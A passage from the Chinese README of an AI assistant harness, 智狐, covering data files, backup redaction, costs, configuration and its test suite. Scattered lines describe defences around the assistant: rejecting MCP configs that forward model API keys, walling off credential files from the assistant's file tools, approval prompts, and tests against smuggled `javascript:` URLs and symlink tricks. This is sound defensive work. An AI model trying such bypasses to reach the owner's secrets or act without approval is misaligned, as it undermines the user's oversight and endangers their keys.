（`chmod` 在那里只能改"只读"这一个标记），而你在用户文件夹以外建的文件夹（`C:\code\…`）默认会继承"这台电脑上的所有账号都能读"。
所以 Windows 上智狐对每个文件夹运行一次 `icacls`（[winacl.py](harness/winacl.py)）：把 `data\` 和里面的文件夹从上一层继承来的权限去掉，
只给你自己的账号（按 SID 认）、SYSTEM 和管理员完全控制，里面以后新建的文件都继承这一份；保存密钥时 `.env` 也是这三项。
留着 SYSTEM 和管理员，是因为它们本来就什么都读得到（和别的系统上的 root 一样），去掉它们只会让备份和杀毒软件出错。
`icacls` 失败的时候（FAT32 的 U 盘、网络盘），智狐照常运行，在日志里写一句警告。

| 路径 | 内容 |
|---|---|
| `.env` | 各家的 API 密钥。通过网页界面保存时，会把它设成只有你的账号能读（Windows 上靠访问控制列表，见上面） |
| `data/conversations/` | 网页界面里的每段会话，一段一个 JSON 文件 |
| `data/media/` | 发过的每个附件的原件，文件名是内容的 SHA-256，同一个文件发十次只存一份。删除会话时（以及每次启动时），没有会话再用的原件会被删掉 |
| `data/memories/` | 助手的长期记忆和笔记。可以在网页的信息栏里查看、修改和删除，也可以手动编辑 |
| `data/skills/` | 装好的 Skill，一个一个文件夹。可以在"扩展 → Skill"里管理，也可以手动改 |
| `data/skills.json` | 哪些 Skill 停用了、每一个是从哪儿装来的 |
| `data/agents/` | 你定制的 Agent，一个一个 Markdown 文件（Claude Code 的 subagent 格式）。可以在"扩展 → Agent"里管理，也可以手动改 |
| `data/todos.json` | 待办事项 |
| `data/tasks.json` | 定时任务，每个任务最近 20 次运行的记录，以及还没关掉的提醒。读不出来时原文件改名为 `tasks.broken.json` 留着，从空的任务列表开始 |
| `data/settings.json` | 你选的模型、同步到的模型列表、自己填的价格、界面语言、每月预算，以及浏览器和操作整台电脑的设置（`"computer": {"enabled", "unattended", "blocked"}`）。不含密钥 |
| `data/ledger.jsonl` | 花费账本：每调用一次模型一行（日期、哪一家、哪个模型、对话还是定时任务还是子 Agent、token 数、估算的金额）。超过 90 天的明细合并成每天、每个模型、每种来源一行 |
| `data/mcp.json` | 你接入的 MCP 服务器，格式和 Claude Desktop 的一样，另外有几项智狐自己的（`enabled`、`approval`、`timeout`）。里面可能有服务器的密钥，所以只有你的账号能读，助手的文件工具也打不开它 |
| `data/channels.json` | 聊天通道，每个平台一份：凭据（机器人的 token，或者应用的 ID 和密钥；密钥就是钥匙）、机器人的名字、配对的主人的账号编号和名字、确认方式、正在用的配对码、每个聊天接着的是哪一段会话，以及 Telegram 的消息读到了哪里。只有你的账号能读；助手的文件工具打不开它；导出时遮住 |
| `data/browser/profile/` | 智狐自己那个 Chrome 的配置文件夹：你在里面登录过的网站的 cookie 和登录状态、缓存、历史记录。只有你的账号能读。"设置 → 浏览器 → 清除"会删掉它 |
| `data/browser/shots/` | 浏览器每一步截图的大图，文件名是内容的 SHA-256。30 天后删掉，对话里的小图还在 |
| `data/desktop/shots/` | 操作电脑每一步截图的大图（你的整个屏幕），文件名是内容的 SHA-256。7 天后删掉，对话里的小图还在 |
| `data/backups/` | 助手整个覆盖某个文件之前，旧版本的备份 |
| `data/input_history` | 你在终端版里输入过的话（按上方向键可以找回） |
| `data/logs/` | macOS 上后台服务的日志 `service.log`，以及最多三份旧的（见"在后台一直运行"） |
| `data/.web-address`、`data/.web-token` | 后台服务的网页口令（重启前后不变，卸载服务时删掉），和带着它的网页地址。`harness serve --web` 没有终端可以打印的时候（后台服务）写在这里。只有你的账号能读，退出时删掉，导出时不带 |
| `data/.lock` | 正在用这个数据目录的那个智狐占着它，里面记着是哪一种（网页界面、`serve`、后台服务）和进程编号，再开一个的时候好说清楚是谁挡着。导出时不带 |

这些都是可以直接打开的普通文件。`data/` 和 `.env` 都写进了 `.gitignore`，不会被提交到 git。
`data/` 里的文件夹和会话文件都设成只有你的账号能读写，同一台电脑上的其他账号看不到。
网页界面保存密钥之后只显示最后 4 位，不会把完整的密钥发回浏览器。

对话内容会发送给你所选厂商的 API 处理，同时保存在你自己电脑上的 `data/conversations/` 里，
不会上传到别处。接了 MCP 服务器的话，你允许的每一次 MCP 工具调用，参数会发给那个服务器。
打开了浏览器的话，助手打开的网页由智狐自己的 Chrome 从那些网站上取来，那些网站看到的是一次普通的访问；它在上面读到的内容，
和别的工具结果一样发给模型的厂商。
打开了操作整台电脑的话，截下的每一张图（你允许的、这段对话里不再问的、"全部自动允许"下截的）都是你整个屏幕的图，它们也会发给模型的厂商。
在会话栏里删除一段会话，对应的文件也会被删掉。

想直接看某段会话的文件，点会话栏里它那一行上的"在访达中显示"。这些"在访达中显示"按钮（会话、记忆、定时任务、待办、
提示词、MCP 服务器、Skill、多媒体里每一项上的，以及记忆、Skill 和浏览器配置文件夹的按钮），除了下面说的一个例外，是页面上仅有的会让电脑启动别的程序
（文件管理器）的按钮，所以服务器对它们格外小心：页面只能告诉服务器"哪一段会话""哪一条记忆"（列表里给它的名字，
按下面说的办法检查）、"哪一个 Skill"（只能是一段名字，而且必须是 `data/skills/` 里真实存在的一个文件夹）、
"哪一个附件"（"会话/第几条消息/第几个"这样的编号，在索引里查过；文件名由内容的 SHA-256 定）、
助手自己的哪一个数据文件（`tasks`、`todos` 或 `prompt`），或者打开记忆、Skill 的文件夹、`data/mcp.json` 和浏览器的配置文件夹时什么都不用说；
路径由服务器自己算，页面没有办法让它打开别的路径。下载附件也是这样：页面只给编号，文件以下载的方式回来
（`Content-Disposition: attachment`、`X-Content-Type-Options: nosniff`），写着 HTML 的文本文件也只当成文字。
浏览器截图的大图也是这样取的：页面只给它的编号（64 个十六进制字符，拼不出任何路径），回答一律是 `image/jpeg`，
带着同样的响应头，再加上 `Content-Security-Policy: default-src 'none'; sandbox`；操作电脑的截图大图从 `/api/computer/shot` 取，规矩一模一样。
除此以外，服务器只会把应用图标（`/icons/<名字>`）的字节发给浏览器：智狐自带的六张 PNG，按名字在一张固定的名单里查（从不拼路径），
一律是 `image/png`，带着 `nosniff` 和 `Content-Security-Policy: default-src 'none'; sandbox`；里面没有一样是你的数据。
Linux 上没有通用的"选中某个文件"的办法，打开的是文件所在的文件夹。
还有一个按钮会启动别的程序：macOS 上"操作整台电脑"一栏里的"打开系统设置"，它用 `open` 打开两个固定的 `x-apple.systempreferences:`
地址之一（屏幕录制或者辅助功能）。页面只能说 `screen` 或 `input`，地址由服务器定；它只是打开那一页，从不改任何设置。

保存一个本地的 MCP 服务器，就是让智狐在你的电脑上运行这个命令（现在，以及之后每次启动）。所以守着这几条：
只有带着这次运行的口令的页面能保存；命令用参数列表启动，不经过 shell，参数里有什么字符都不会被当成命令的一部分；
模型没有任何能添加或修改服务器的工具，它的文件工具在任何模式下都碰不了 `data/mcp.json`；
这些程序拿不到各家模型的 API 密钥，配置里想把密钥转交出去（`${ANTHROPIC_API_KEY}`）会被拒绝；
环境变量和请求头的值不会发到浏览器，只有最后 4 位；别的工具的配置文件只在你打开导入页的时候读，只复制你勾选的服务器，
它们"不用问"的设置不复制。
MCP 工具调用的参数会发给那个服务器（它可能在网上），所以在确认卡片上看清楚再允许。

在信息栏里查看、修改、删除一条记忆也是同样的防法：页面送回来的是列表里给它的名字（比如 `projects/zhifox.md`），
服务器从记忆文件夹出发一层一层地走到这个文件，凡是会走出这个文件夹的都不认：`..`、绝对路径、指向别处的符号链接。
它只删普通的文件；删完之后空下来的子文件夹也一起删掉。编辑时给的新名字只能是一段名字（不能带 `/`，不能以 `.` 开头），
所以记忆可以改名，但挪不出它所在的文件夹；新内容先写进临时文件再一步换上去，保存失败也不会留下半个文件。

### 备份和恢复

**设置 → 导出全部数据** 会把数据文件夹打成 `zhifox-backup-日期-时间.zip` 下载下来：会话、记忆、待办、设置、
花费账本，以及以后的功能放在这个文件夹里的东西。里面没有任何 API 密钥：密钥在 `.env` 里，它不在数据文件夹里；
万一在数据文件夹里发现像 `.env` 这样的文件，也会跳过。`data/mcp.json` 存在的话照样导出，但所有密钥都换成
`<removed-from-backup>`：环境变量、请求头、名字像 key、token、password 的字段、`--token` 这类开关后面的值、网址里的密码，
以及长得像 API 密钥的字符串；名字都留着，恢复以后知道要填回哪几项。这个文件不是合法的 JSON 的话，整个不导出，
宁可少导出一份也不冒险带出密钥。`data/channels.json` 里每个机器人的 token、应用的密钥和正在用的配对码，
导出时也同样换成 `<removed-from-backup>`（应用的 ID 留着）。符号链接也不导出，因为它可能指向你电脑上的任何地方。压缩包里有一份
`README-backup.txt`，写着导出的时间、怎么恢复、哪些文件做了处理或者没有导出。压缩包在数据文件夹以外的临时文件里生成，
发给浏览器之后就删掉。

恢复的办法：

1. 先退出智狐（在它的终端里按 Ctrl-C）。
2. 把压缩包解压到数据文件夹里（默认是项目里的 `data/`），覆盖同名的文件：`unzip -o zhifox-backup-….zip -d data`
   （用访达双击解压也行：把解压出来的文件夹里的内容拷进 `data/`）。想完全回到备份时的样子，先把现在的 `data/`
   挪到一边，再解压到一个新建的空 `data/` 里。
3. 重新启动智狐。备份里有 MCP 服务器的话，把它们的密钥重新填上；接过聊天通道的话，把它们的 token 或者密钥重新粘贴一次
   （"扩展 → 通道 → 编辑"，或者 `harness channels setup <平台>`）。

暂时还不能在网页界面里导入。

## 费用

API 按 token 计费（一个汉字大约 1 到 2 个 token）。因为每次请求都要重发整个对话历史，
对话越长、步骤越多，每一步越贵。一次让助手自己查资料的任务可能要走几十步，费用会比普通聊天高很多。

程序里控制费用的几样东西：

- **估算费用**：网页侧栏和终端的 `/usage` 会把用量换算成美元。这只是估算，实际以各家的账单为准，
  账单通常有延迟。
- **花费账本**：每一次模型调用（不管是对话、定时任务还是子 Agent）都按那一刻的价格记进 `data/ledger.jsonl`
  （DeepSeek 的高峰、闲时也按那一刻算），所以今天、本月的合计重启也不会清零。以后改了价格，旧账不跟着变；
  没有价格的模型照记 token 数，在有价格之前按 0 元算。每一次调用往文件末尾追加一行，程序崩溃最多留下半行，
  读的时候会跳过。
- **每月预算**：在设置里填，可以不填。超过时提醒一次，不会拦住任何操作，定时任务也照常运行。
- **搜索次数上限**：用户每发一条消息，Claude 最多搜索 5 次、读取网页 5 次，超过后它会根据已有的信息回答。
  这个上限由 API 强制执行。联网搜索除了 token 之外每次另收 1 美分。
- **缓存**：重复发送的部分命中缓存后便宜很多（Claude 约为原价的二十分之一）。
  缓存只保留几分钟，所以隔了一阵再接着聊一段很长的旧会话时，第一条消息要按整段历史的原价计费。
  打开超过 3 万 token 的旧会话时，页面会提示一下。
- **自动压缩**：对话特别长时，较早的内容会被压缩成摘要，之后每一轮少发很多 token。Claude 由 API 自己压缩；GPT、Gemini、DeepSeek 由智狐请同一个模型写摘要，这次调用也算进估算的费用（见[对话太长了怎么办](#对话太长了怎么办压缩历史)）。
- **附件**：图片按大小计费，每 28×28 像素算一个 token，一张满尺寸的截图最多约 4800 个 token（用 Opus 5.5 约 2 美分）；
  PDF 每页大约 1500 到 3000 个 token；Word、Excel、PowerPoint 按取出来的文字计费。附件和其他历史一样，每一轮都会重新发给模型，靠缓存才便宜。
- **浏览器**：用 Claude 时，浏览器开着时开始的对话，每次请求多发大约 6600 个输入 token 的工具包说明书。它在请求开头、被缓存的那一段里，
  第一次之后大约只要原价的二十分之一；尽管如此，这也是浏览器默认关着、它的工具只放进浏览器开着时开始的对话的原因。
  读一页按它的文字计费（每次最多 5 万个字）。一张截图（1280×800，JPEG）大约 1400 个 token，只在模型自己要截图时才发给它；
  工具卡片上的小预览图从不发给模型。
- **操作整台电脑**：用 Claude 时，打开了它之后开始的对话，每次请求多发大约 4500 个输入 token 的工具包说明书（和浏览器的一样被缓存）。
  每张截图按图片计费（长边最多 1568 像素、最多 115 万像素，大约 1500 个 token；1512×982 的屏幕交出去是 1330×864），
  而模型几乎每一步都要截一张，一次做得久了，累积起来不少。和其他历史一样，之前的截图每一轮都会重发（靠缓存便宜）；
  智狐从不把它们从历史里删掉：在现在的 Claude 模型上，删掉以前的截图会让模型之前的思考内容作废。做一件新的事，就开一段新对话。
  设置里会按你的屏幕估算一张截图多少 token。
- **子 Agent**：把一件事交给子 Agent，要花它自己调用模型的钱（每件事最多 25 次），在账本里记成"子 Agent"，
  卡片上也写着。换来的是：它读过的网页留在它自己的历史里，不进主助手的对话，之后的每一轮不用再为它们付钱。
- **定时任务**：让助手去做的任务每运行一次，费用和把它的指令当成一条消息发出去差不多，而且不管你在不在都会运行。
  不设花费上限：每 5 分钟一次的任务，一天就是 288 次。每次运行的估算费用都记在任务上。提醒不花钱。
- 随时可以点"停止"，或者用"新对话"把历史清零。

内置的价格（2026-11-20 对照两家官方的定价页核对过，单位是美元 / 每百万 token）：

| 模型 | 输入 | 写入缓存 | 命中缓存 | 输出 |
|---|---|---|---|---|
| `claude-opus-5-5` | 4 | 5 | 0.2 | 20 |
| `claude-sonnet-5-5` | 2 | 2.5 | 0.1 | 10 |
| `claude-fable-5-2` | 8 | 10 | 0.2 | 40 |
| `deepseek-flash`（高峰 / 闲时） | 0.30 / 0.15 | 不收 | 0.006 / 0.003 | 1.20 / 0.60 |
| `deepseek-v4-pro`（高峰 / 闲时） | 1.32 / 0.66 | 不收 | 0.044 / 0.022 | 3.96 / 1.98 |

Claude 的写入缓存是 5 分钟那一档（智狐用的就是它）；联网搜索另外每 1000 次 10 美元。
DeepSeek 分时段计价：北京时间工作日 9:00–12:00、14:00–18:00 是高峰，其余时间（包括周末）半价。
智狐每调用一次模型就看一下当时是高峰还是闲时，闲时的用量单独记，所以一段对话跨过了时段的分界也算得对。
DeepSeek 把中国法定节假日也算作闲时，这些日子没有内置，落在工作日的节假日会按高峰价估算（估高一点，不会估低）。
旧名字 `deepseek-v4-flash` 按 `deepseek-flash` 的价格算。

其他模型的价格需要你在设置里自己填（自己填的价格全天都按它算）。没有价格的模型只显示 token 数，页面会提示它没有计入估算。

## 配置

写在 `.env` 里，都是可选的：

| 变量 | 默认值 | 说明 |
|---|---|---|
| `HARNESS_MAX_SEARCHES` | `5` | 每条消息最多联网搜索几次，`0` 表示不限制 |
| `HARNESS_WEB` | `1` | 设为 `0` 完全关闭联网搜索 |
| `HARNESS_EFFORT` | `medium` | Claude 思考的力度：`low` / `medium` / `high` / `xhigh` / `max` |
| `HARNESS_DATA_DIR` | 项目里的 `data/` | 记忆、待办、设置等数据存放的目录 |
| `HARNESS_PROVIDER`、`HARNESS_MODEL` | `anthropic`、`claude-opus-5-5` | 还没在界面上选过模型时用哪一个。选过之后以界面上的选择为准 |
| `HARNESS_CHROME` | 自动查找 | 浏览器用哪个 Chrome（或者 Chromium、Edge、Brave）的完整路径。"设置 → 浏览器"里填了路径的话，以那里为准 |

## 动手试试：加一个自己的工具

新建 `harness/tools/dice.py`：

```python
import random

from .base import Tool, function_tool


def make_dice_tool() -> Tool:
    def roll_dice(sides: int = 6) -> str:
        return f"掷出了 {random.randint(1, sides)} 点"

    return function_tool(
        name="roll_dice",
        description="掷一次骰子，返回点数。用户想要随机数、抛硬币或抽签时使用。",
        properties={"sides": {"type": "integer", "description": "骰子有几个面，默认 6"}},
        required=[],
        function=roll_dice,
    )
```

然后在 [harness/tools/\_\_init\_\_.py](harness/tools/__init__.py) 里导入它，并在 `build_registry` 的列表中加一行 `make_dice_tool(),`。
重新启动，对助手说"帮我掷个骰子"。用 `function_tool` 创建的工具，四家的模型都能用。

几点说明：

- `description` 是模型决定要不要调用这个工具的唯一依据。除了写它做什么，也要写**什么时候该用**。
- 工具返回的是给模型看的文字。出错时抛出 `ToolError("原因")`，模型会看到原因并自己调整。
- 如果新工具会改动电脑上的东西，在 [harness/permissions.py](harness/permissions.py) 的 `review` 里给它加一条规则，让它先问你。

## 测试

```bash
uv run pytest          # 并行跑：有几个 CPU 核心就开几个进程（pytest-xdist），全部跑完一分钟左右
uv run pytest -n 0     # 一个一个跑，调试、想看 print 的输出时用
```

测试不需要 API 密钥，也不花钱。默认是并行跑的（[pyproject.toml](pyproject.toml) 里的 `addopts`）：每个进程各有自己的
假服务器和临时目录，页面测试在每个进程里各开自己的演示服务器和 Chrome，彼此不共用任何东西。[tests/fake_api.py](tests/fake_api.py) 和 [tests/fake_openai.py](tests/fake_openai.py)
是两个本地的假服务器，分别按 Claude 和 OpenAI 的格式回放事先写好的回复，这样就能让真正的 SDK 把整个循环跑一遍，
并检查发出去的请求是否正确。想知道循环在各种情况下的行为（工具出错、用户拒绝、被打断、模型拒绝回答），
可以读 [tests/test_agent.py](tests/test_agent.py)。网页界面的测试在 [tests/test_webui.py](tests/test_webui.py)，由测试代码扮演浏览器；
应用图标的清单和几张 PNG 在 [tests/test_web_manifest.py](tests/test_web_manifest.py)（口令、Host 和 Origin，名字只认固定的名单、碰不到别的文件，
响应头，安全策略，maskable 的狐狸整个在安全区里）；会话的保存和搜索分别在 [tests/test_conversations.py](tests/test_conversations.py) 和 [tests/test_search.py](tests/test_search.py)；GPT、Gemini、DeepSeek 的压缩历史在 [tests/test_compaction.py](tests/test_compaction.py)；
花费账本和预算在 [tests/test_ledger.py](tests/test_ledger.py)（用固定的钟测 DeepSeek 的高峰、闲时价，文件末尾的半行，
旧明细的合并），导出在 [tests/test_export.py](tests/test_export.py)（压缩包里一个密钥都没有），
它们在网页上的接口在 [tests/test_spending_web.py](tests/test_spending_web.py)。
模型目录在 [tests/test_model_catalog.py](tests/test_model_catalog.py)（页面拿到的 JSON：密钥只有最后 4 位、标签、自己填的和内置的价格、闲时价；
换模型的接口和目录对得上：同一家接着聊、换一家开始新的一段而旧的那段还在、聊天通道占着这段会话时不许换、对话进行中目录照样能看但不能换、
角色不变；还有终端的 `/model`）。
定时任务的测试在 [tests/test_tasks.py](tests/test_tasks.py)（时间表，包括月底和夏令时；保存；工具和它们的权限）和
[tests/test_task_runs.py](tests/test_task_runs.py)（通过真实的服务器运行任务，用的是假的钟，所以没有哪个测试要等到早上 9 点：
任务和你的对话同时进行、两个任务一起跑、超过上限的排队、"停止"只停它自己那一次、四档确认方式；假 API 按每次运行的指令分开回答，
所以几个任务一起跑时结果也是确定的）。
MCP 的测试在 [tests/test_mcp.py](tests/test_mcp.py) 和 [tests/test_mcp_web.py](tests/test_mcp_web.py)，对着的是
[tests/fake_mcp.py](tests/fake_mcp.py)：一个两代协议都会说、stdio 和 HTTP 都能用的假 MCP 服务器。
多媒体库的测试在 [tests/test_media.py](tests/test_media.py)（原件的存储和去重；从 Claude 和 OpenAI 两种格式的旧历史里找回附件；
筛选和翻页；拼不出路径的编号；只在没有会话再用时才删原件）和 `tests/test_webui.py` 里多媒体的那一节（接口和响应头）。
编辑和重新生成的测试在 [tests/test_rewind.py](tests/test_rewind.py)（两种格式都测：新请求的开头和原来一字不差、没有落单的工具结果、
之前的思考内容原样不变、重启以后重新打开、压缩、哪些事算"改动了东西"）、[tests/test_rewind_web.py](tests/test_rewind_web.py)
（接口和它拒绝的情况、先确认、两个标签页里倒回以后的事件流、会话文件、搜索和多媒体库）和
[tests/test_rewind_cli.py](tests/test_rewind_cli.py)（`/retry` 和 `/edit`）。
聊天通道的测试对着每个平台各一个本地的假服务器，测试代码扮演你的手机：[tests/fake_telegram.py](tests/fake_telegram.py)
（像 Telegram 一样检查每条消息的 HTML 和长度的假 Bot API）、[tests/fake_discord.py](tests/fake_discord.py) 和
[tests/fake_qq.py](tests/fake_qq.py)（REST 加一个网关：能让你重连、让会话失效、不回心跳、用任意代码关掉连接）、
[tests/fake_slack.py](tests/fake_slack.py)（Web API 加 Socket Mode，没收到回执的信封会再推一遍），以及
[tests/fake_feishu.py](tests/fake_feishu.py) / [tests/fake_dingtalk.py](tests/fake_dingtalk.py)（HTTP 接口，加一个代替 SDK 的假长连接）。
一套组装（[tests/channel_rig.py](tests/channel_rig.py)）把整个程序对着它们中的任何一个跑起来。测的有：配对（对的、错的、过期的配对码，
陌生人和群聊不理）、同一条消息推了两次、拆开长回复、照片和文件、用按钮、打字和在网页上答复确认（几边抢着答）、
每个通道自己的确认方式、`/new` `/stop` `/status`、断线重连和 Resume、限流、把文件发回聊天里（每个假服务器都收各平台的上传、
照着平台的上限检查；当照片还是当文件、说明、太大的文件在问你之前就拒绝、密钥永远不发、`data/` 照样问、上传到一半 `/stop`、
请求的开头在几轮之间、重启以后、到网页上接着聊都一个字节不差：[tests/test_send_file.py](tests/test_send_file.py)），
以及 token 和密钥从不出现在页面、日志、出错信息和导出里
（[tests/test_channels.py](tests/test_channels.py)、[tests/test_channels_web.py](tests/test_channels_web.py)、`tests/test_channels_<平台>.py`、
[tests/test_channels_platforms.py](tests/test_channels_platforms.py)）。装了 SDK 的时候，飞书的事件分发器和真的钉钉 Stream 客户端
也会对着假服务器跑一遍；没装就跳过这几个。WebSocket 客户端和 HTTPS 帮手有自己的测试，对着本地的假服务器和假代理
（[tests/test_websocket.py](tests/test_websocket.py)、[tests/test_net_http.py](tests/test_net_http.py)）。
服务器模式和命令行在 [tests/test_serve.py](tests/test_serve.py)，其中有一个测试启动真实的 `harness serve` 进程，再用 SIGTERM 停下它。
后台服务在 [tests/test_service.py](tests/test_service.py)：写出来的 plist（用 `plistlib` 和 `plutil -lint` 检查）和 unit、
怪路径的引号、对着假的 `launchctl` 和 `systemctl` 发出的每一条命令、装两次、数据目录被占着时不装、读状态、`open` 和日志，
还有一个真的 `serve --service launchd` 进程自己写日志文件。没有任何测试会运行真的 `launchctl`、`systemctl`，或者打开浏览器：
`tests/conftest.py` 让它们一调用就失败。
Skill（frontmatter 的解析、做坏了的压缩包、对着本地 HTTPS 服务器的下载、列表怎么交给模型而不改动请求的开头）在 [tests/test_skills.py](tests/test_skills.py)。
从其他工具导入在 [tests/test_imports.py](tests/test_imports.py)：假的家目录里给每一个支持的来源放一份文件（JSON、带注释的 JSONC、
Codex 的 TOML、Goose 和 Continue 的 YAML、frontmatter 各不相同的 Markdown Agent、Kiro 和 Codex 的 Agent 文件），测每种写法怎么换、
密钥遮住、引用模型密钥的拒绝、"不用问"的设置不搬、写坏了的文件、Windows 上的位置和反斜杠路径、项目级和用户级，还有 YAML 的子集解析器；
[tests/ui/test_ui_imports.py](tests/ui/test_ui_imports.py) 在三页的导入里实际点一遍。
自定义 Agent 在 [tests/test_agents.py](tests/test_agents.py)（文件格式和检查、只会变少的工具 allow-list、在假的家目录下存取、
提示词、`<agents>` 目录、对着假 API 的委派：新的历史、放开的工具、换模型、确认、"停止"停到子 Agent 自己的 shell 和 MCP 调用、
步数和层数的上限、账本里记成 `subagent`、主助手请求的开头一字不差；还有角色的保存和恢复）和
[tests/test_agents_web.py](tests/test_agents_web.py)（`/api/agent/…` 接口、用 Agent 开始对话、网页里子 Agent 的事件、确认和停止）。
只读的命令有一张九百条左右的表，每一条写着该得到的结论和为什么：引号和转义、每一种操作符、选项的缩写和 BSD 的"参数后面的选项"、
指向保护起来的地方的符号链接和硬链接、大小写和 Unicode 的不同写法、对着藏着密钥的文件夹的递归命令，以及写它的时候找到的每一个漏洞
（[tests/test_commands.py](tests/test_commands.py)）。这一档本身（在对话、定时任务、聊天通道里放开了什么，每一步没问就做时写的"为什么"，
你自己的清单在网页上和命令行里怎么改，模型碰不到这个清单）在 [tests/test_readonly_mode.py](tests/test_readonly_mode.py)、
[tests/test_task_runs.py](tests/test_task_runs.py) 和 [tests/test_channels.py](tests/test_channels.py)；三处选择列的是同样的四档、
"不用问的命令"窗口，在 [tests/ui/test_ui_approval_modes.py](tests/ui/test_ui_approval_modes.py)。
浏览器分几层测。CDP 客户端对着进程内的两根管道，一个线程扮演 Chrome 的那一头，测试可以把一条消息拆成几段发、先发事件再回答
（[tests/test_browser_cdp.py](tests/test_browser_cdp.py)）。启动（描述符在 3 号和 4 号上、Chrome 的环境里没有 API 密钥、自成一个进程组）、
关掉整个进程组、用假的钟测闲置关闭，以及 session 最简单的几样，对着的是 [tests/fake_chrome.py](tests/fake_chrome.py)：
一个经过真正的 `chrome.launch()` 启动、按剧本回答管道协议的假 Chrome（[tests/test_browser_chrome.py](tests/test_browser_chrome.py)、
[tests/test_browser_unit.py](tests/test_browser_unit.py)，后者还试了很多种想把 `javascript:` 地址混过去的写法）。
问不问你的规矩在 [tests/test_browser_permissions.py](tests/test_browser_permissions.py)。工具的说明书和结果在循环里怎么走，
对着假 API 测在 [tests/test_browser_tools.py](tests/test_browser_tools.py)：Claude 的请求里只有一项工具包、没有替身（别家反过来）、
结果上的 `toolset_name` 和 `browser_state`、一串调用里前一个失败后面就不做的规矩，以及聊几轮之后请求的开头一个字节都不差。
设置里的接口、顶栏的提示、截图大图那个接口的响应头在 [tests/test_browser_web.py](tests/test_browser_web.py)。
最后，[tests/test_browser_live.py](tests/test_browser_live.py) 用真正的 Chrome（无界面）打开 `http.server` 在本机临时起的网页：
读、点、输入、认出密码框和提交按钮、截图、开标签页；这台电脑上没有 Chrome 就整个跳过。
操作整台电脑的测试从不碰你真的屏幕、鼠标和键盘。`tests/conftest.py` 让每个测试都找不到真的后端，要用电脑的测试换上
[tests/fake_desktop.py](tests/fake_desktop.py)：一个假的后端，记下每一个事件，截图交回一张编造的"桌面"（[tests/fixtures/](tests/fixtures/)），
屏幕的大小和 Retina 的倍数都能设。对着它，`tests/test_desktop_*.py` 检查：每个成员和替身工具变成了哪些事件、坐标换算得对不对（包括 Retina）、
默认每一步都问、这段对话里选过"不再问"（截图，或者点击和打字）和"全部自动允许"时不问、危险的组合键照样问并带着警告、
定时任务和聊天通道拿不到"不再问"、停止、每次运行各自的 session 和"一个屏幕同一时间一个运行"、
定时任务和聊天通道的开关、网页上的接口和响应头，以及聊几轮之后请求的开头一个字节都不差。
[tests/test_desktop_x11.py](tests/test_desktop_x11.py) 在它自己启动的虚拟屏幕（Xvfb）上跑真的 X11 后端；没有 Xvfb、`xdotool`
或者 ImageMagick 的地方就跳过，所有的 Mac 都在其中。

Markdown 渲染器有自己的测试：[tests/markdown.test.mjs](tests/markdown.test.mjs)，用 Node 自带的测试工具跑
（`node --test tests/markdown.test.mjs`，什么都不用装）；电脑上有 Node 时，`uv run pytest` 也会顺带跑它。
测试里用的是一个很小的假文档：`innerHTML` 这类会解析 HTML 的接口一碰就报错，只允许建出固定的几种标签和属性。
它覆盖了每一种支持的写法、嵌套、转义、恶意输入、按随机大小一段段输出（结果必须和一次画完的一样），以及一万行的长输入。

[tests/test_page.py](tests/test_page.py) 里有几条不用浏览器的静态检查：页面的每一块都在清单里列了、只列了一次；
没有哪一块里有 `</script`、`</style`、`<!--` 或者占位符（放进页面会出问题）；没有两个函数同名；每一块脚本、
以及拼好的整段脚本都能通过 `node --check`（两块里用 `const` 定义了同一个名字，单独查都没事，拼起来整个页面就跑不起来）。

页面本身（[harness/webui/page/](harness/webui/page/) 里的标记、样式和脚本）由 [tests/ui/](tests/ui/) 里的页面测试在真正的 Chrome（无界面）里测。
`uv run pytest` 会带上它们；`uv run pytest -m ui` 只跑它们，`-m "not ui"` 跳过它们。这台电脑上没有 Chrome 时跳过，CI 里必须跑。
一共一分钟左右，不加任何依赖：驾驶 Chrome 用的是智狐自己手写的 CDP 客户端（不用 Playwright、Selenium，也不用 npm），
整个测试会话只把 `tests/demo_web.py` 作为子进程启动一次（数据在临时目录里），每个测试在一个新的、像隐身窗口一样的浏览器上下文里打开页面。
点击、悬停和按键都是真的输入事件，会等目标不再移动、没有被别的东西盖住才点；所有的等待都是"等页面里某个条件成立"，从不固定地睡几秒。
页面里出现任何脚本异常、`console.error` 或者被安全策略（CSP）拦下的东西，测试就失败。测的有：打开时没有报错、不请求外部的东西；
回复一点点出现，刷新以后整段重放、不播入场动画；确认卡片（允许、带着原因拒绝、Esc 不会替你答复）和"全部自动允许"要多确认的那一步；
默认浅色、深色、跟随系统，以及文字的对比度；跟着系统、也跟着外观面板的"减少动态效果"；在原地切换中文、英文、西班牙语
（对话、滚动位置、写了一半的话、开着的面板都留着），以及把每一个面板和窗口打开一遍，找没翻译的中文；三种语言下 390 像素宽的窄屏上文字有没有冲出容器；
每一种存在本地的东西（会话、待办、定时任务、记忆、Skill、MCP 服务器、Agent、聊天通道）悬停和键盘移进来时都有
"在访达中显示 / 编辑 / 删除"，删除先在原地确认；有没保存的修改时关窗口先问（Esc、×、取消、点外面、焦点不在窗口里时按 Esc）；
下拉框的箭头是页面自己画的；扩展的四页和空状态；多媒体库和查看器；换模型的面板（列出来的东西、同一家马上换、换到另一家之前在原地先问、
没有密钥时带你去设置里填、键盘、就地重译、手机上从底下升起来、减少动态效果时直接出现），以及在设置里填好密钥、再在面板里换到那一家；
语言面板（每种语言用自己的文字写、键盘、手机上从底下升起来）；齿轮和 ⌘, / Ctrl+, 打开设置，模型按钮不打开设置；浏览器每一步的小截图；
Chrome 自己怎么看网页应用清单（`Page.getAppManifest` 没有错、`Page.getInstallabilityErrors` 是空的、每张图标都取得到且尺寸对、
别的图片照样被安全策略拦下）和标题栏的颜色跟着选的外观走；编辑最后一条消息和重新生成（按钮在哪儿、输入框空着时按 ↑、改过了按 Esc 先提醒、这一轮执行过命令时先确认、失败的那一轮单独一排"重新生成"、
另一个标签页跟着变并留住它没发出去的修改）。
这些测试里演示的回复按 [tests/demo_scripts.py](tests/demo_scripts.py) 里的剧本走（一段对话的第一条消息写着 `[ui:名字]`），
所以测试之间不依赖先后顺序。测试失败时会存下截图、控制台输出和页面的 HTML（路径会打印出来；CI 会把它们传上去）。
[tests/ui/checks.py](tests/ui/checks.py) 里的检查是启发式的，带着几张选择器的表，加了新的面板就往表里添一项。
它们判断不了的（看起来精不精致、动画顺不顺、真正的触屏），仍然要在真实的浏览器里对着演示手动看一遍。

想不花钱地到处点点、看看界面，可以运行 `uv run python tests/demo_web.py`：它启动的是真实的服务器和页面，
后面接的是本地的假模型，回复都是预设的，数据写在临时目录里，不碰你的密钥和 `data/`。
